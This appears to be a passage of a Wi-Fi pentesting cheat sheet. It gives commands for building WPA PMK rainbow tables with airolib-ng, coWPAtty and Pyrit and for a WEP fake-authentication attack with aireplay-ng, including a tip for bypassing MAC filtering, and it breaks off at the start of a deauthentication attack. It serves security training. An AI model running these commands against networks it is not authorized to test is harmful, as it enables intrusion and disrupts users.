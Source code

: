 #### 2.3.4 rainbow tables with airolib-ng
- import essid list via a file
`> airolib-ng <db filename> --import essid <essid.list>`

- import password list
`> airolib-ng <db filename> --import passwd <password file>`

- generate the PMKs (Pairwise Master Key) with batching the essid and pws
`> airolib-ng <db filename> --batch`

#### 2.3.5 rainbow tables with coWPAtty
- generating the rainbow tables for a ESSID
`> genpmk -f <wordlist> -d <rainbow file> -s <ESSID>`

#### 2.3.6 rainbow tables with Pyrit
- import wordlist in db
`> pyrit -i <wordlist> import_passwords`

- add essid to db
`> pyrit -e <AP name> create_essid`

- create PMKs
`> pyrit batch`

## 3. WEP cracking

### 3.1 WEP cracking with clients

#### 3.1.1 fake authentication attack
Asociates the attackers machine with the target AP so sent packets aren´t rejected by the AP.

- no ARP packets are created
- useful if no clients are connected
- performed before a lot of wireless attacks in order to send packets to the AP without beeing rejected

**performing the attack:**

1. put device in monitoring mode (see airmon-ng)
2. capture packets and save it to a file (see airodump-ng)
3. perform fake auth
`> aireplay-ng -1 0 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`
If not succesful after some tries, probably MAC address filtering is enabled on the AP. In this case identify an associated client and wait for it to disconnect to use its MAC address.

#### 3.1.2 deauthentication attack
sends deauth packet to an associated clients and forcing them to reauthenticate

- useful to dicover hidden SSIDs
- useful to capture WPA/WPA2 handshakes
- in some setups ARP packets are send when a client reconnects

**performing the attack:**

